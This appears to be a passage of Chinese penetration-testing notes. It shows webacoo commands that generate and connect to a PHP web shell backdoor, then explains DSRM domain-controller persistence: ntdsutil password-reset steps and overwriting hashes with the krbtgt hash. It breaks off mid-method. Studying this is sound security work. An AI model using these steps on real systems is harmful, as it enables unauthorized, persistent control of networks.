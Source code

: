 - 安装

```csharp
apt install webacoo
```

- 生成shell

```csharp
webacoo -g -o 123.php
```

- 连接后门

webacoo -t -u <http://192.168.x.x/123.php>

域控制器权限持久化
=========

DSRM域后门
-------

DSRM （ Directory Services Restore Mode,目录服务恢复模式）是Windows域环境中域控制器的安全模式启动选项。每个域控制器都有一个本地管理员账户（也就是DSRM账户）

DSRM的用途是:允许管理员在域环境中出现故障或崩溃时还原、修复、重建活动目录数据库，使域环境的运行恢复正常。在 域环境创建初期，DSRM的密码需要在安装DC时设置，且很少会被重置。修改DSRM密码最基本的方法是在DC上运行ntdsutiI命令行工具。  
在渗透测试中，可以使用DSRM账号对域环境进行持久化操作。

- 如果域控制器的系统版本为Windows Server 2008,需要安装`KB961320`才可以使用指定域账号的密码对DSRM的密码进行同步。
- 在 Windows Server 2008以后版本的系统中不需要安装此补丁。
- 如果域控制器的系统版本为Windows Server 2003则不能使用该方法进行持久化操作

我们知道，每个域控制器都有本地管理员账号和密码（与城管理员账号和密码不同）DSRM账号可以 作为一个域控制器的本地管理品用户，通过网络连接城控制器，进而控制域控制器。

**简单来讲 就是当初创建域的时候：键入目录还原的(DSRM)密码**

### 修改DSRM密码

### 第一种

在域控制器上打开命令行环境

```php
1. NTDSUTIL: 登录ntdsutil
2. set dsrm password #设置DSRM密码
3. reset password on server null #在当前域控服务器上恢复DSRM密码
4. <PASSWORD> # 修改后的密码
5. q # 退出密码设置模式
6. q # 退出NTDSUTIL模式
```

修改成功 用ipc登录尝试

这里是登录不上的 因为域控默认是禁用DSRM的

### 第二种

简单来讲 就是用krbtgt用户的NTLM hash覆盖administrator用户的NTLM hash

